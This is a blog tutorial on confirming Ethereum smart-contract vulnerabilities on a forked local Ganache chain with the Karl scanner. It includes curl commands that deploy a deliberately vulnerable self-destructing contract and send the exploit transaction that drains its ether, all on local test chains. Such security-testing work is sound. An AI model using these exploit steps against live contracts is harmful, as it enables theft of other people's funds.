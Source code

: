 +++
title = "How to Test Ethereum Exploits in a Virtual Environment"
date = "2019-01-26T13:28:09+02:00"
draft = false
+++

> This is going to be a series about some of the techniques I implemented when designing [Karl](https://github.com/cleanunicorn/karl), a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![Long horses](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/longhorses.jpeg)

#### Virtual environment

A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember ["I accidentally killed it"](https://github.com/paritytech/parity-ethereum/issues/6995)?

Another great reason to use a virtual environment is that once we send transactions to the blockchain, any other person watching it will know how to exploit it, and they may not be as diligent as you about [responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure) to the creators of the application.

Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack. This could be part of a [security CTF](https://ctftime.org/ctf-wtf/) if not the real world.

#### How to setup the virtual environment

You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.

Being part of the [Truffle Framework](https://truffleframework.com/), a smart contract development environment, [Ganache](https://truffleframework.com/ganache) is your on-demand personal Ethereum blockchain, perfect for local development… and hacking!

Compared to [Geth](https://github.com/ethereum/go-ethereum) or [Parity](https://www.parity.io/), Ganache is easier to setup and it's not as resource intensive.

You can install and run Ganache in just 2 commands (if you have [NodeJS](https://nodejs.org/en/) installed)

```console
$ npm install -g ganache-cli
$ ganache-cli
```

And you have your own personal blockchain.

#### This is how you fork the mainnet

A little-known feature of Ganache is **forking** another blockchain. You can think about this as **cloning** **an existing blockchain**, but don't worry, you won't need to download the entire blockchain! Ganache will start instantly and will only query the real blockchain when it needs to, for example to read the contract's code and state.

```console
$ ganache-cli -f https://mainnet.infura.io
```

And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```console
$ ganache-cli -f https://mainnet.infura.io@100
```

This will provide a **blockchain clone** that it is safe to play with. It will create a local instance and you can send transactions and deploy new contracts, run your exploit and check its validity. All of this without touching the _real blockchain_, without anyone else knowing what you’re doing and without self-destructing libraries by mistake.

### Exploiting in a virtual environment walk-through

> This is where we start to go into details. You need a few things installed.

In the following example you will:

* Run Karl and monitor for vulnerable contracts
* Fork the chain after we find a vulnerable contract
* Test the exploit and see if we stole some Ether

#### Karl

If you don’t know about Karl, go to the GitHub page and star the project. It helps you find vulnerable contracts on Ethereum.

[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)

> If you find any bugs or have any problems running Karl, please [report an issue](https://github.com/cleanunicorn/karl/issues).

Karl is available as a [PyPI package](https://pypi.org/project/karl/), so you can just install it by running:

```console
$ pip install --user karl
```

Typically you would point Karl at the main Ethereum network and monitor the contracts that get deployed there. For demonstration purposes, we're going to monitor a local test chain instead. We'll use Ganache for this test chain too.
We start a private Ganache instance.

```console
$ ganache-cli -d
```

Start Karl and monitor for new contracts.

```console
$ karl --rpc localhost:8545
```

In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```

We’re going to deploy a vulnerable contract ourselves.

This curl request deploys a vulnerable contract along with 1 Ether.

```console
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```

Karl should find a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722

Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```

Now we can fork the chain and check the vulnerability ourselves.

#### Forking the chain

The original chain is located at `http://localhost:8545`, because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```console
$ ganache-cli -f [http://localhost:8545](http://localhost:8545) -d -p 9545
```

Each flag explained:

* `-f [http://localhost:8545](http://localhost:8545)` tells Ganache what chain to fork
* `-d` runs Ganache in deterministic mode, the same wallets are generated every time; this is important because you can copy paste the curl commands and you don't need to update the address that deploys the contract
* `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)

Once the fork is up and running we can send the transaction that Karl reported and see if we successfully stole the contract’s ETH.

Check initial balance for address `0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`

```console
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x56bc75e2d63100000"}
```

Our current balance is `0x56bc75e2d63100000` which is exactly 100 ether in hex format.

#### Exploiting the contract

We send the transaction Karl reported

```console
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545

{
    "id": 1,
    "result": "0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"
}
```

We see a successful response with the transaction hash in the result.

#### Checking the final balance

The last thing to do is get the final balance of the account.

```console
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545

{"id":1,"result":"0x579a71129ec175000"}
```

There we go

* `0x56bc75e2d63100000` = `100 ether` initial balance
* `0x579a71129ec175000` = `100.99971444 ether` final balance

Doing the math we see that the difference is almost 1 Ether, the initial Ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![Boom!](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/boom.jpeg)Boom! Hacked!

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![Blockchain clone and exploit](/images/blog/how-to-exploit-ethereum-in-a-virtual-environment/fork.png)

All this goodness is already implemented and packaged for you.

[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
